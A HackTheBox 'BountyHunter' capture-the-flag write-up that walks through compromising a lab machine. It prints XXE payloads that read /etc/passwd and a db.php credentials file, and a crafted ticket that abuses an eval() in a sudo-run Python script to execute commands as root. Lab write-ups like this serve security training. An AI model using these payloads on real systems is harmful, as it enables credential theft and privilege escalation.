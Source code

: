 
# HackTheBox(HTB) - BountyHunter - WriteUp

> Austin Lai | November 18th, 2021

---

<!-- Description -->

![BountyHunter](img/BountyHunter.png)

Difficulty: Easy

The room is completed on November 03rd, 2021

<!-- /Description -->

## Table of Contents

<!-- TOC -->

- [HackTheBox(HTB) - BountyHunter - WriteUp](#hacktheboxhtb---bountyhunter---writeup)
    - [Table of Contents](#table-of-contents)
    - [Let's Begin Here !!!](#lets-begin-here-)

<!-- /TOC -->

---

## Let's Begin Here !!!

Start the instance and perform rustscan for network reconnaissance.

Rustscan:

```bash
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time âO>
[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.100:22
Open 10.10.11.100:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
[~] Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-03 20:30 +08
Scanned at 2021-11-03 20:30:48 +08 for 7s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 8.54 seconds
           Raw packets sent: 2 (88B) | Rcvd: 2 (88B)
```

Check on port 80 - HTTP.

Main page:

![main-page](img/main-page.png)

Portal page:

![portal-page](img/portal-page.png)

Bounty Report System page:

![bounty-report-system-page](img/bounty-report-system-page.png)

And we perform a web fuzzing through gobuster directories listing.

Gobuster:

```bash
http://10.10.11.100/.hta                 (Status: 403) [Size: 277]
http://10.10.11.100/.htaccess            (Status: 403) [Size: 277]
http://10.10.11.100/.htpasswd            (Status: 403) [Size: 277]
http://10.10.11.100/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
http://10.10.11.100/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]
http://10.10.11.100/index.php            (Status: 200) [Size: 25169]
http://10.10.11.100/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]
http://10.10.11.100/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
http://10.10.11.100/server-status        (Status: 403) [Size: 277]
```

There is one directory named ` resources ` contain interesting files:

![resources-page](img/resources-page.png)

Checking across all the files, ` README.txt ` is a checklist of tasks

![readme](img/readme.png)

And ` bountylog.js ` show the code to process and how the bounty report system work:

![bountylog-js](img/bountylog-js.png)

Then we decide to test out the bounty report system:

![testing-bounty-report-system](img/testing-bounty-report-system.png)

Checking the request information using browser developer tools, there is an interesting base64 information in the form data:

![request-header](img/request-header.png)

Decode the base64 and we get XML:

![decode-base64-request-header](img/decode-base64-request-header.png)

Seem like we can perform XXE Injection Attack.

We craft a basic XXE Injection payload here and encode with base64, best to use [CyberChef](https://gchq.github.io/CyberChef/) to encode to base64 and URL encode to encode all special characters:

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [<!ENTITY ent SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd"> ]>
<bugreport>
<title>&ent;</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>test</reward>
</bugreport>
```

Result of encoding:

![result-of-encoding](img/result-of-encoding.png)

Now we can use ` curl ` command to post our payload to bounty report system, base on the information from ` bountylog.js `; it will be send the post request to ` tracker_diRbPr00f314.php` 

Result of post request using ` curl `:

![result-post-payload-curl](img/result-post-payload-curl.png)

The result we get contain a big chunk of base64, let's decode it and we get the ` /etc/passwd `

![passwd-output](img/passwd-output.png)

Great ! We have a workable XXE Injection attacks, now we target to read ` db.php ` that usually located at ` /var/www/html/ `.

Why we target ` db.php `? The ` README.txt ` shown there is a database connection from bounty report system; and ` db.php ` often contain plain text credential.

So in this case, we craft our XXE payload to read ` db.php `:

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [<!ENTITY ent SYSTEM "php://filter/read=convert.base64-encode/resource=db.php"> ]>
<bugreport>
<title>&ent;</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>test</reward>
</bugreport>
```

And we encode it with base64 and URL encoding as well, then we use ` curl ` to post request to bounty report system along with our new payload to read ` db.php `.

Result of our new payload:

![result-new-xxe-payload](img/result-new-xxe-payload.png)

Then we decode it with base64 and we have a valid credential:

![valid-creds](img/valid-creds.png)

We tried to login to ssh using the credential we found, however unsuccessful.

While checking the ` /etc/passwd ` that we gotten ealier, there is another user - ` development `.

Using ` development `, we are now logging in to the system.

Checking user home directory.

![user.txt-and-contract.txt](img/user.txt-and-contract.txt.png)

Check sudo command:

![development-sudo](img/development-sudo.png)

From the sudo command, we know that ` development ` user can run python along with the ` ticketValidator.py `.

We examine the content of ` ticketValidator.py `.

<details><summary>ticketValidator.py</summary>

```python
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

</details>

![ticketValidator.py](img/ticketValidator.py.png)

Based on the context of the script, we can supply our own markdown file with malicious payload.

If you carefully examine the script, there is a python evaluate statement, mean we can execute command using python evaluate statement.

In order to craft a valid markdown file to supply to the script, there are a few things to be included.

The markdown file must contain below as the script will validate the exact contain:

```
# Skytrain Inc 
## Ticket to 
__Ticket Code:__
```

The last part is calculation, the code we craft must start with ** and able to Modulus by 7 and equal to 4.

```
**102+ 10 == 112 
```

Then we append our payload after the code, since eval() would take user-provided input and execute it as Python code.

Our final content of the markdown file will be:

```
# Skytrain Inc 
## Ticket to 
__Ticket Code:__
**102+ 10 == 112 and __import__('os').system('cat /root/root.txt') == False
```

We save the markdown file as ` root.md ` in the ` development ` home directory.

![root.md](img/root.md.png)

Now we run the script and supply our own markdown file.

![root.txt](img/root.txt.png)

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB

